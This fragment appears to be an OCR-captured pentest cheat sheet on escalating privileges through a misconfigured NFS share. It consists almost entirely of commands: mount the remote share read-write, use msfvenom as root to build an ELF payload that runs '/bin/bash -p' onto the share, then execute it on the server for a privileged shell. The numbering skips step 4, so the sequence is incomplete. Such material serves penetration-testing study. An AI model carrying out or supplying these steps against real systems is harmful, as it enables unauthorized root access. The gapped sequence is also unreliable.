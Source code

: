 1. Create a mount point on our local machine: `$ mkdir /tmp/nfs`
2. Remotely mount the directory:  
`mount -o rw,vers=2 <server-ip>:/mountable/directory/on/server /local/mountpoint`
3. Create a malicous payload using msfvenom as root:  
`$ sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o </path/to/mounted/share>/shell.elf`
5. Move over to the server and execute the file: `$ /path/to/payload`



